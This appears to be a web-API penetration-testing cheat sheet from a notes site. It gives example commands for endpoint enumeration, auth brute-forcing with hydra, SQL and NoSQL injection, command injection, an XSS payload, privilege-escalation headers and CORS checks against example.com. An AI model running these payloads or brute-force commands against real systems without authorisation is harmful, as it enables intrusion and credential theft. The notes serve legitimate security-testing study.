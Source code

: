 ```yaml
---
layout: notes
permalink: /notes/web/api/
title: Web Application API Testing
---
```


# Web Application API Testing

## API Enumeration
```bash
# Discover endpoints
curl -X GET http://example.com/api/<API_ENDPOINT>

# Brute-force with ffuf
ffuf -u http://example.com/api/FUZZ -w wordlist.txt

# Check OpenAPI spec
curl http://example.com/api/swagger.json

# Use dirb for API paths
dirb http://example.com/api/ -r

# Enumerate with Arjun
arjun -u http://example.com/api -m GET
```

## Authentication Testing
```bash
# Test API auth
curl -H "Authorization: Bearer <token>" http://example.com/api

# Brute-force API key
hydra -l apiuser -P apikeys.txt http://example.com/api -t 4

# Check token expiration
jwt_tool <token> -exp

# Test OAuth flow
curl -X POST -d "grant_type=password" http://example.com/oauth/token
```

## Injection Testing
```bash
# Test SQL injection
curl "http://example.com/api/search?q=' OR 1=1 --"

# Test NoSQL injection
curl "http://example.com/api/search?q[]=[{'$gt':''}]"

# Test command injection
curl "http://example.com/api/exec?cmd=whoami"

# Use sqlmap for API
sqlmap -u http://example.com/api/search --data="q=test"

# Test XSS in JSON
curl -H "Content-Type: application/json" -d '{"input":"<script>alert(1)</script>"}' http://example.com/api
```

## Business Logic Testing
```bash
# Test rate limits
for i in {1..100}; do curl http://example.com/api; sleep 1; done

# Check privilege escalation
curl -H "role:admin" http://example.com/api/admin

# Test idempotency
curl -X POST -d "action=delete" http://example.com/api

# Validate input bounds
curl -d "amount=1000000" http://example.com/api/transaction
```

## Security Headers and Misconfigurations
```bash
# Check headers
curl -I http://example.com/api

# Test CORS
curl -H "Origin: http://attacker.com" -I http://example.com/api

# Check for exposed endpoints
nikto -h http://example.com/api

# Test HSTS bypass
curl -k https://example.com/api
```

## Tools
- ffuf: ```ffuf -u http://example.com/api/FUZZ -w wordlist.txt```
- sqlmap: ```sqlmap -u http://example.com/api```
- Postman: manual API testing
- Arjun: ```arjun -u http://example.com/api```
- jwt_tool: ```jwt_tool <token>```